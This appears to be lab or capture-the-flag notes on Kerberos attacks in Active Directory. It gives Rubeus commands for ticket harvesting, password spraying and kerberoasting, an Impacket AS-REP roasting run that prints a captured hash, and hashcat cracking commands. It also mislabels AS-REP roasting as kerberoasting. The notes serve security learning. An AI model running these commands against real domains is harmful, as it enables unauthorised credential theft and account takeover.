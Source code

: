 **Harvesting:**
You have to run it on attacker machine!
Link: (Rubeus GitHub)[https://github.com/GhostPack/Rubeus]

```console
$ Rubeus.exe harvest /interval:30

 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
**Bruteforce**
Add the domain controller to windows hosts file `echo 10.10.253.78 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

```console
$ Rubeus.exe brute /password:Password1 /noticket

- This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

### Kerberoasting /w Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

**Method1: Rubeus**
```console
$ Rubeus.exe kerberoast 

- This will dump the Kerberos hash of any kerberoastable users

```

Copy the hash to your machine and crack it with hashcat

```console
$ hashcat -m 13100 -a 0 hash.txt wordlist.txt
```

**Method2: Impacket**

```console
$ cd /usr/share/doc/python3-impacket/examples/

$ ./GetNPUsers.py -no-pass -dc-ip 10.10.227.157 spookysec.local/svc-admin                                                                
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9edf52350a4fa9634c1b0b8e88f180a$c4a770ce5ed7bfd6a853d0b16e279ad198530c0961bc03ebdb06cb22d65bef73422d803022e76893f27a2002130ceb7ad27ddbef1d13e878e8d41c40cdd4a3535af63f9c2de2a906873a89f3b73283d2df3d58736540ea611af315beb84c9ec36b3120e03e67c96b993c47467cfb727deb94778558a6b5b937c8f64b063114edbf146607828f969198eb3cbf88fa2b0a761ae2e6e12b5a579ec8a13b7543fd8c6b06eb1ed8e72d51c1e3d65f1aafd635e81dd0660aa09043918f7382eadb1725516872a8c4bdcdb6279a501efdb84cb37176ea95d23783f9a481e0c028581186ce6d7a96aac32ab8152a7317c1d278935ebc

$ hashcat -m 18200 -a 0 hash.txt passwordlist.txt
```
